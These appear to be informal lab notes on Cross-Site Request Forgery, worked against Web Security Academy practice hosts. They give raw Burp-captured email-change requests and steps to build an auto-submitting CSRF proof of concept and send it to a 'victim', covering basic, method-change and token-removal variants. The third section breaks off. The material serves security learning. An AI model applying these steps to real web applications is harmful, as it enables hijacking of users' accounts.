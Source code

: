  ## CSRF(Cross-site request forgery)
   Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application
   in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), 
   an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, 
   a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. 
   If the victim is an administrative account, CSRF can compromise the entire web application.

   ## Resource 
   
     https://corneacristian.medium.com/top-25-csrf-bug-bounty-reports-ffb0b61afa55


  ## How to test for CSRF
   A good methodology to identify CSRF vulnerabilities would be to discover all the endpoints through which the application initiates and executes actions,   and apply tests for all three types of Cross-Site Request Forgery described above.



  ## CSRF type
  
  
  
  ## 1. Basic
    
  Find CSRF
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
 ## BURP request 
 
    POST /my-account/change-email HTTP/1.1
    Host: 0a98002a031dc494c0bb490d002b0039.web-security-academy.net
    Cookie: session=Xi4wUL9QBc5WIvwtzoN7dwzzJdwtDVi5
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 22
    Origin: https://0a98002a031dc494c0bb490d002b0039.web-security-academy.net
    Referer: https://0a98002a031dc494c0bb490d002b0039.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com
 
 Change Email Id 
  
 Sand the Request in Repeter
 
 Sand the Request in Engagement tools
 
 Sand the request Engagement sub-tabe Generate CSRF POC 
 
 Open the Option tabe and select the INCLUDE auto-submit Script
 
 and click "Regenerate"
 
 copy html and sand the victom
 
 victam click the link 
 
 boom hack the id 
 
  ## 2. CSRF change request method
 
  Find CSRF
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
    POST /my-account/change-email HTTP/1.1
    Host: 0ad2000603304f22c01c4dd500860024.web-security-academy.net
    Cookie: session=ogvSLeaV2cZGd1WUAWSmqSVPMvOm4Q4C
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0ad2000603304f22c01c4dd500860024.web-security-academy.net
    Referer: https://0ad2000603304f22c01c4dd500860024.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com&csrf=XYZJKeGiUSE0mD4LKrHufpsusLxqtIQa
    
 And Change request method 
    
 Change Email Id 
  
 Sand the Request in Repeter
 
 Sand the Request in Engagement tools
 
 Sand the request Engagement sub-tabe Generate CSRF POC 
 
 Open the Option tabe and select the INCLUDE auto-submit Script
 
 and click "Regenerate"
 
 copy html and sand the victom
 
 victam click the link 
 
 boom hack the id 
    
    
 ## 3. Remove CSRF Token 
 
  Find CSRF
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
    
    POST /my-account/change-email HTTP/1.1
Host: 0a47009a043a07eac09a218e000300a8.web-security-academy.net
Cookie: session=VShOTSOiOO4zVZzz8bn9QOcI7dhmtYJj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net
Referer: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=asif%40khan.com&csrf=WETxOXISfGeVUKAPqcezagvb4x9HSaZn









    
    
    
